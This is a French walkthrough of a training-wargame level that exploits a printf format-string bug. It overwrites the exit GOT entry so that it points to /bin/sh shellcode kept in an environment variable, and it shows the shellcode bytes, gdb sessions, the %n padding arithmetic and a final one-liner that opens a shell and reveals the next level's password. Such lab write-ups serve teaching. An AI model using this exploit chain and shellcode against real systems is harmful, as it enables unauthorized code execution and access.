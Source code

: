 # Format String Exploitation

En décompilant l'exécutable, on remarque que le code décompilé n'est pas très lisible. En revanche, on remarque un `buffer` de `100` octets dans la fonction `main`, ainsi que la présence de la fonction `fgets` copiant directement l'entrée lue dans ce `buffer`.
```c
[...]
uint8_t auStack120 [100];
[...]
fgets(auStack120, 100, _reloc.stdin);
[...]
```
Un `overflow` ne semble ici pas possible en raison de la protection des `100` caractères lus par `fgets`. Néanmoins, on remarque la présence d'un `printf` suivi d'un appel à la fonction `exit`.
```c
printf(auStack120);
exit(0);
```
D'après nos tests, le code appelle systématiquement le fonction `printf` avant de se terminer avec l'appel à `exit`. Un exploit `format string` semble réalisable avec `printf`. L'objectif est de remplacer l'adresse de `exit` par l'adresse d'un `shell code`, puisqu'aucune fonction ne contient un appel à la fonction `system`.

Pour exploiter cette faille, nous aurons besoin au préalable de :
- exporter notre `shell code` dans une variable d'environnement.
- déterminer l'adresse cette variable d'environnement.
- déterminer l'`offset` utilisé par `printf` pour séléctionner les arguments.
- déterminer l'emplacement de l'adresse de `exit`.

## Export du `shell code`

On utilise simplement notre `shell code` habituel qui est :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
On le précède d'instructions `NOP` pour être certain de `jump` sur notre `shell code`. Puis on l'exporte dans une variable d'environnement.
```
export SHELL_CODE=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

## Adresse du `shell code`

On utilise `gdb` afin de déterminer l'adresse de notre variable d'environnement.
```
> gdb level05
[...]
> (gdb)  b main
Breakpoint 1 at 0x8048449
> (gdb) r
[...]
> (gdb) x/140s environ
[...]
0xffffdb27:	 "SHELL_CODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdbef:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdcb7:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdd7f:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffde47:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
[...]
```
L'adresse de notre variable d'environnement contenant notre `shell code` est `0xffffdb27`. Cependant, nous utiliserons `0xffffdcb7` afin de `jump` au milieu des instructions `NOP`.

## Offset de `printf`

On utilise une nouvelle fois `gdb` pour déterminer l'`offset` de `printf`. On donne en entrée standard `AAAA%p` afin de visualiser où sera copié notre entrée et visualiser l'adresse du premier argument de `printf` avec `%p`. On `break` à l'instruction suivant l'appel à `printf`.
```
> (gdb) disas main
[...]
   0x08048500 <+188>:	lea    0x28(%esp),%eax
   0x08048504 <+192>:	mov    %eax,(%esp)
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
[...]
> (gdb) b *0x0804850c
Breakpoint 1 at 0x804850c
> (gdb) r
Starting program: /home/users/level05/level05 
AAAA%p
aaaa0x64

Breakpoint 1, 0x0804850c in main ()
> (gdb) x/20wx $esp
0xffffd250:	0xffffd278	0x00000064	0xf7fcfac0	0xf7ec3af9
                                 ^
                                 premier argument de printf
0xffffd260:	0xffffd29f	0xffffd29e	0x00000000	0xffffffff
0xffffd270:	0xffffd324	0x00000000	0x61616161	0x000a7025
                                             ^
                                             AAAA
0xffffd280:	0x08048271	0x00000000	0x00c30000	0x00000001
0xffffd290:	0xffffd4a3	0x0000002f	0xffffd2ec	0xf7fceff4
```
On observe donc un `offset` de `10`.

## Adresse de `exit`

On peut déterminer l'adresse de la fonction `exit` avec `gdb`.
```
> (gdb) disas main
[...]
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
[...]
> (gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```
L'adresse contenant l'adresse la fonction `exit` est `0x80497e0`.

## Exploitation de la faille

Pour rappel, l'adresse de notre variable d'environnement est `0xffffdcb7` soit `4294958263` en base 10. Ce nombre est bien trop grand pour être utilisé dans un modifier `%d`. Il ne pourra pas être correctement interprété par la fonction `printf`. Ainsi, plutôt que d'écrire les 4 octets de notre adresses d'un coup, nous allons l'écrire par paire de 2 octets. En décomposant l'adresse de notre variable d'environnement en 2 octets nous avons donc :
```
0xffff    0xdcb7
```
Ainsi, nous écrirons `0xdcb7` à l'adresse de `exit` et `0xffff` à l'adresse de `exit` + `0x02`.
```
           ff ff dc b7
0x80497e0: 00 00 00 00
               ^     ^
               |     adresse de exit
               adresse de exit + 0x02
```
De manière abstraite, voici comment nous allons formatter notre entrée :
```
[adresse_exit] [adresse_exit + 0x02] [%d] [%10$n] [%d] [%11$n]
```
Pour déterminer le nombre à insérer entre chaque `%d`, il suffit de convertir nos octets en base 10, puis d'y soustraire le nombre d'octets imprimés par `printf` à partir du `%d`.

**`0xdcb7`**

```
[0x80497e0] [0x80497e2] [%d] [%10$n] [%d] [%11$n]
 ^           ^
 4 octets    4 octets
```
```
0xdcb7 = 56503 (base 10)
56503 - 8 = 56495
```

**`0xffff`**

```
[0x80497e0] [0x80497e2] [%56495d] [%10$n] [%d] [%11$n]
 ^           ^           ^
 4 octets    4 octets    56495 octets
```
```
0xffff = 65535 (base 10)
65535 - 56495 - 4 - 4 = 9032
```

Ainsi :
```
[0x80497e0] [0x80497e2] [%56495d] [%10$n] [%9032d] [%11$n]
```
```
> (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56495d" + "%10$n" + "%9032d" + "%11$n"'; cat) | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
